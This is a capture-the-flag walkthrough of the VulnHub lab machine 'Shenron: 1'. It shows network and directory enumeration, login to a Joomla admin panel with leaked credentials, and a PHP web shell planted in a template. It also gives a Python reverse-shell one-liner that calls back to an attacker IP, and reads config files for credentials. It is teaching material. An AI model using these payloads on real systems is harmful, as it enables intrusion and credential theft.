# Shenron: 1

- **Machine:** Shenron: 1
- **Download:** https://www.vulnhub.com/entry/shenron-1,630/



---

# Machine Setup

1. Open the downloaded OVA file in VirtualBox.
2. Click **Finish**.
3. Start the virtual machine.

---

# Network Scanning

## Discover the Target IP

```bash
nmap -sn 192.168.2.0/24
```


---

## Full Nmap Scan

Perform a complete scan to identify open ports, services, operating system information, and default NSE scripts.

```bash
nmap -v -Pn -sT -sV -sC -A -O -p- 192.168.2.171
```



---

## Optional Port Enumeration

```bash
nmap -v -p- 192.168.2.171
```

```bash
nmap -sC -sV -A 192.168.2.171
```

---

## HTTP Enumeration

Run the HTTP enumeration NSE script.

```bash
nmap -v -p 80 -sT -sV -A --script=http-enum.nse 192.168.2.171
```

---

# Web Enumeration

Visit the target website.

```text
http://192.168.2.171/
```

---

## Directory Enumeration

Use Dirsearch to enumerate directories.

```bash
dirsearch -u http://192.168.2.171 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
```

Discovered directories:

```text
/test
/joomla
```


Visit both endpoints.

```text
http://192.168.2.171/test/
http://192.168.2.171/joomla/
```

---

## Discover Credentials

The `/test` directory contains a password file.


View the page source to recover the credentials.




---

## Joomla Enumeration

Enumerate the Joomla directory.

```bash
dirsearch -u http://192.168.2.171/joomla/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
```

The administrator portal is discovered.

```text
/administrator
```


Open the administrator login page.

```text
http://192.168.2.171/joomla/administrator/index.php
```


Login using the recovered credentials.

```text
Username : admin
Password : 3iqtzi4RhkWANcu@$pa$$
```



---

# Upload a Web Shell

Navigate to:

```text
Extensions → Templates → Templates
```

Select the **Protostar** template.



Create a new PHP file.





Insert the following PHP web shell.

```php
<?php system($_GET['cmd']); ?>
```

Save the file.



---

# Verify Remote Code Execution

Execute commands through the uploaded shell.

```text
http://192.168.2.171/joomla/templates/protostar/reverse_shell.php?cmd=id
```


Read the passwd file.

```text
http://192.168.2.171/joomla/templates/protostar/reverse_shell.php?cmd=cat%20/etc/passwd
```


Check the current working directory.

```text
http://192.168.2.171/joomla/templates/protostar/reverse_shell.php?cmd=pwd
```



---

# Reverse Shell

## Start the Listener

On the attacker machine, start a Netcat listener.

```bash
nc -lvnp 443
```

---

## Execute a Python Reverse Shell

Trigger the following payload through the web shell.

```text
?cmd=python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.2.218",443));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty;pty.spawn("/bin/bash")'
```

A reverse shell is received.



---

# Local Enumeration

Read the Joomla configuration file to recover database credentials.

```bash
cat /var/www/html/joomla/configuration.php
```



---

# User Access

Switch to the discovered user.

```bash
su jenny
```



---

# Key Learning

- Always enumerate hidden directories during web reconnaissance.
- Source code inspection may reveal hardcoded credentials.
- Joomla administrator access allows modification of template files.
- Template editing can be abused to achieve remote code execution.
- A simple PHP web shell can be used to verify command execution before deploying a reverse shell.
- Joomla's `configuration.php` often contains valuable credentials for further privilege escalation.
- Thorough post-exploitation enumeration frequently reveals additional user accounts and privilege escalation paths.

---

# Summary

The assessment began with Nmap and directory enumeration, revealing a Joomla installation and a hidden `/test` directory containing administrator credentials. After authenticating to the Joomla administrator panel, a PHP web shell was uploaded by creating a new file within the Protostar template. The shell provided remote command execution, which was upgraded to an interactive reverse shell using a Python payload. Finally, local enumeration of the Joomla configuration file exposed additional credentials that allowed switching to the **jenny** user for further privilege escalation.